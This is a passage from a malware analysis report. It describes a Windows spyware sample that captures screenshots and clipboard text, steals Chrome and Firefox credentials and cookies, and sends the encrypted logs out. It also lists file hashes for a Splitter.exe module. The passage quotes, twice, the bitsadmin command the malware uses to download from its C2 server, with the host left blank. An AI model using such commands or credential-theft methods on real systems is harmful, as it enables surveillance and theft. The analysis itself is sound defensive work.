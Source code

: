 
3
Transfers screenshots from the clipboard to \Cache005 subdirectory and Unicode text from clipboard to log.txt, XOR-ed with the “salamati” key (“health” in Farsi)


4
Transfers screenshots to \Cache005 subdirectory with captureScreenTimeOut and captureScreenTimeOut frequencies


5
Checks network connection, encrypts and sends gathered logs


6
Unhooks mouse and keyboard, removes bitsadmin task


7
Checks if malware’s working directory size already exceeds its threshold


8
Gathers victim´s credentials, visited website cache, decrypted Chrome login data, as well as Firefox databases with cookies, keys, signons and downloads



The malware uses the following command to receive data from its C2:





bitsadmin.exe /TRANSFER HelpCenterDownload /DOWNLOAD /PRIORITY normal  
http:///asp.asp?ui=nrg--




12

bitsadmin.exe /TRANSFER HelpCenterDownload /DOWNLOAD /PRIORITY normal  http:///asp.asp?ui=nrg--




Activity logging module (Splitter.exe)
This module is called from the main thread to obtain screenshots of windows whose titles are specified in the configuration CaptureSites field, bitmaps and text from clipboard, etc.



SHA256  
a77f9e441415dbc8a20ad66d4d00ae606faab370ffaee5604e93ed484983d3ff


MD5
1ff40e79d673461cd33bd8b68f8bb5b8


Compiled
2017.08.06 11:32:36 (GMT), 2.22


Type
I386 Windows Console EXE
